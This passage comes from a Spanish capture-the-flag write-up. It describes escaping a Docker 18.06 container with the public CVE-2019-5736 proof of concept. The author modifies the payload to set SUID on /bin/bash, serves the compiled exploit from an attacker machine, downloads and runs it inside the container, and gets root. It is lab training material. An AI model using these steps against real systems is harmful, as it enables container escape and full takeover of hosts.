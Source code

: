 Investigamos el container webapp-dev01 con docker pero no encontramos nada

```bash
docker --version
#Output

Docker version 18.06.0-ce
``` 

Miramos si existe un exploit en la web `docker 18.06.0-ce exploit github` y encontramos algo en [CVE-2019-5736-POC](https://github.com/Frichetten/CVE-2019-5736-PoC)

```bash
cd exploits
git clone https://github.com/Frichetten/CVE-2019-5736-PoC
cd CVE-2019-5736-PoC

vi main.go
```

Aqui mirando el `main.go` vemos un comentario que dice:

`// This is the line of shell commands that will execute on host`

La modificamos para autorgar un derecho SUID a la bash

```bash
var payload = "#!/bin/bash \n chmod 4755 /bin/bash
```

Ahora lo compilamos y lo transferimos a la maquina victima

1. En la maquina de attackante buildeamos el exploit y preparamos el envio

    ```bash
    go build -ldflags "-s -w" main.go
    ls
    upx main
    mv main exploit
    python -m http.server 80
    ```

1. En la maquina victima nos conectamos al contenedor

    ```bash
    sudo /usr/bin/docker exec -it webapp-dev01 bash
    cd /tmp
    wget http://10.10.14.8/exploit
    ls
    chmod +x exploit
    ./exploit
    ```

1. No conectamos nuevamente con ssh

    ```bash
    ssh -i id_rsa noah@10.10.10.230
    sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
    ls -l /bin/bash
    bash -p
    whoami

    root
    ```

Ya estamos root y podemos leer la flag

